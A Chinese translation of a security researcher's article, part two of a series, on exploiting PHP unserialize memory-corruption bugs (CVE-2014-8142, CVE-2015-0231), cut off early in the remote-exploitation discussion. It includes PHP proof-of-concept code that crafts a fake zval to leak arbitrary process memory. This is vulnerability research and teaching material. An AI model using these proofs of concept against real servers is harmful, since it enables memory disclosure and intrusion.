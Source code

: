 # PHP中的内存破坏漏洞利用（CVE-2014-8142和CVE-2015-0231）（连载之第二篇）

0x00 前言
=======

* * *

作者：Cigital公司的安全顾问Qsl1pknotp（Tim Michaud）

题目：Exploiting memory corruption bugs in PHP (CVE-2014-8142 and CVE-2015-0231) Part 2：Remote Exploitation

地址：http://www.inulledmyself.com/2015/02/exploiting-memory-corruption-bugs-in_23.html

上一部分中，我们找到了本地利用CVE-2014-8142和CVE-2015-0231的方法。在第二部分中，我们将进一步探讨漏洞的远程利用，并明确通过我们的方法到底能窃取到什么有用信息。本部分的研究是只针对CVE-2015-0231的，至于CVE-2014-8142的远程利用，其实读者完全可以根据第一部分中的概述，自己做一些修改来完成。

0x01 PHP中 “序列化”特性应用
===================

* * *

上一部分中我们讲到，Esser给出的代码可以泄露一个攻击者不可控的地址的数据。代码如下：

```
<?php
$data ='O:8:"stdClass":3:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;s:39:"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;}';
$x = unserialize($data);
var_dump($x);
?>

```

source:[StefanEsser_Original_LocalMemLeak.php](https://gist.github.com/tmm08a/686d3f78a44c8ea80fd0#file-stefanesser_original_localmemleak-php)

虽然上述代码是有用的，但是它没有达到我们期待的效果！我们想要的是远程泄露任意内存地址的数据，而不是基本上没什么作用的随机地址数据。为了做到这一点，我们需要找到一种方法来完成以下两个目标：

写任意数据（确保PHP不崩溃）

读任意数据（确保PHP不崩溃）

跟生活中的其他事情一样，一次只解决一个问题往往要容易一些。因此，我们首先从完成目标1开始做起。其实我们是可以做到写任何我们所需的数据的，因为发送的是自己的object对象。然而，我们需要的是找到方法来写有用的信息，如下是我们上一回中讲到的最后一个例子：

```
<?php

$fakezval = pack(
    'IIII',     //unsigned int
    0x08048000, //address to leak
    0x0000000f, //length of string
    0x00000000, //refcount
    0x00000006  //data type NULL=0,LONG=1,DOUBLE=2,BOOL=3,ARR=4,OBJ=5,STR=6,RES=7
);
//obj from original POC by @ion1c
$obj = 'O:8:"stdClass":4:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;a:1:{i:0;i:1;}i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;s:3:"ddd";s:4:"AAAA";}';
$obj=unserialize($obj);

for($i = 0; $i < 5; $i++) { //this i value is larger than usually required
    $v[$i]=$fakezval.$i; //repeat to overwrite
}
//due to the reference being overwritten by our loop above, leak memory
echo $obj->ccc;
?>

```
